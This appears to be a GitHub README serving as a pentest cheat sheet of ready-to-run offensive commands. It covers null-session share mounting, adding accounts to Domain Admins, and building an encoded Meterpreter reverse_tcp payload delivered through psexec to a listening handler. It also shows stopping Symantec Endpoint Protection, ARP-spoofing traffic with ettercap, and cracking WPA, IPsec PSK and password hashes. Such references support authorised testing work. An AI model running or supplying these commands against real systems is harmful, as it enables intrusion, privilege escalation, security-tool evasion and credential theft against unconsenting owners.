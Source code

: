 # Testing-Cheats-
Helpful Pentest Commands 1 

MOUNT SHARES
# Mount Windows Share with Null Session
net use x: \\server\share "" /u:

# Mount NFS share on Linux
mount -t nfs server:/share /mnt/point

# Mount Windows Share on Linux
mount -t cifs //server/share -o username=,password= /mnt/point
ADD ADMINISTRATIVE ACCOUNTS
# WINDOWS: Add domain user and put them in Domain Admins group
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN

# WINDOWS: Add local user and put them local Administrators group
net user username password /ADD
net localgroup Administrators username /ADD

# LINUX: Add a new user to linux and put them in the wheel group
useradd -G wheel username

# LINUX: Set the new user's password
passwd username

# LINUX: If the shell is non-interactive set the password using chpasswd
echo "username:newpass"|chpasswd
STDAPI_SYS_PROCESS_EXECUTE: OPERATION FAILED: 1314
# If you get this error while trying to drop to as shell in meterpreter, try the code below. This is a known bug in meterpreter
 
execute -f cmd.exe -c -i -H
METASPLOIT: USE CUSTOM EXECUTABLE WITH PSEXEC
# Generate an executable
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

# Setup multi/handler
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(handler) > set LPORT 4445
LPORT => 4445
[*] Started reverse handler on 192.168.0.1:4445
[*] Starting the payload handler...

# In another msfconsole setup psexec
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.2
RHOST => 192.168.0.2
msf exploit(psexec) > set SMBUser user
SMBUser => user
msf exploit(psexec) > set SMBPass pass
SMBPass => pass
msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
EXE::Custom => /path/to/custom.exe
msf exploit(psexec) > exploit

# If everything works then you should see a meterpreter 
# session open in multi/handler
DISABLE ANTIVIRUS
# Disable Symantec Endpoint Protection
c:\program files\symantec\symantec endpoint protection\smc -stop
USE ETTERCAP TO SNIFF TRAFFIC
ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap
CRACKING WPA/WPA2 PSK
# With John the Ripper
john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w -  capture_file.cap

# With Hashcat
./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w -  capture_file.cap
CRACKING IPSEC AGRESSIVE MODE PRE-SHARED KEY
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

# Finding Aggressive Mode VPNs
ike-scan -A 192.168.1.0/24

# If the default transforms don't work use the generate_transforms.sh script from
# the user guide above.
generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24

# SonicWALL VPNs require a group id, the default group id is GroupVPN
ike-scan 192.168.1.1 -A -id GroupVPN

# Use the -P argument to save the handshake to a file, which can be used by psk-crack
ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt

# Crack the pre-shared key using a dictionary
psk-crack -d /path/to/dictionary psk_192.168.1.1.txt
CREATE AN IP LIST WITH NMAP
nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt
CRACK PASSWORDS WITH JOHN AND KORELOGIC RULES
for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} 
-w:<wordlist> <password_file> ; done
